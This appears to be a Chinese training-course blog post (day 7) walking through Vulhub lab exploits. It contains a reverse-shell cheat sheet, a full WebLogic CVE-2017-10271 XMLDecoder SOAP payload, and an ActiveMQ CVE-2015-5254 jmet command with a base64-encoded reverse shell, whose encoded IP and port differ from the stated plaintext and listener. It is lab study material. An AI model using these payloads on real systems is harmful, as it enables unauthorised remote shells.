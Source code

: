 ```yaml
---
title: 【网络安全1x07】安恒厂家网络安全培训 --- day7
date: 2020-07-07 20:55:08
tags: [网络安全, kali, vulhub]
---
```


上午教室占用，休息。

下午讲了两个vulhub靶机，有XMLDecoder 反序列化漏洞，ActiveMQ反序列化漏洞。

<!-- more -->

# 常用反弹shell命令

``` bash
bash -i >& /dev/tcp/[kali_ip]/[nc_port] 0>&1
#下面的都和第一条等价
bash -i &> /dev/tcp/[kali_ip]/[nc_port] 0>&1
bash -i >& /dev/tcp/[kali_ip]/[nc_port] 0<&1
bash -i >& /dev/tcp/[kali_ip]/[nc_port] <&1
bash -i >& /dev/tcp/[kali_ip]/[nc_port] <&2
bash -i 1> /dev/tcp/[kali_ip]/[nc_port] 2>&1 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [kali_ip] [nc_port]>/tmp/f

exec 5<>/dev/tcp/[kali_ip]/[nc_port];cat <&5|while read line;do $line>&5 2>&1;done
```

# Weblogic  10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）

## 影响版本

* OracleWebLogic Server10.3.6.0.0
* OracleWebLogic Server12.1.3.0.0
* OracleWebLogic Server12.2.1.1.0
* OracleWebLogic Server12.2.1.2.0

## 漏洞原理

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 漏洞利用

抓包修改payload，nc监听，反弹shell。

1. 原数据包：

``` bash
GET / HTTP/1.1

Host: 192.168.137.129:7001

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0
```

2. 修改payload：

``` bash
#第二行修改为靶机IP
#<string>标签改为攻击机IP及监听端口

POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: [靶机ip]:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/[攻击机IP]/[监听端口] 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

3. nc反弹shell：

``` bash
nc -lvp 21
```

## 漏洞修复

删除WebLogic wls-wsat组件：

``` bash
rm -rf wlserver_10.3/server/lib/wls-wsat.war

rm -rf user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war

rm -rf user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat/
```

# ActiveMQ反序列化漏洞（CVE-2015-5254）

## 漏洞原理

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

## 影响版本 

* 5.13.0之前5.x版本

## 漏洞利用

1. 下载jmet的jar文件：

``` bash
cd /opt

wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar

mkdir external
```

2. 上传信息给靶机`61616`端口，明文内容在burpsuite进行base64加密：

``` bash
#明文消息
bash -i >& /dev/tcp/192.168.137.128/4444 0>&1

#base加密
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzNy4xMjgvNDQ0NCAwPiYx

#上传命令
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzMS4xMjgvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.137.129 61616
```

3. 本地开启nc监听：

``` bash
nc -lvp 4444
```

4. 访问靶机`8161`端口：`http://192.168.137.129:8161/admin/browse.jsp?JMSDestination=event`，点击信息，得到反弹shell。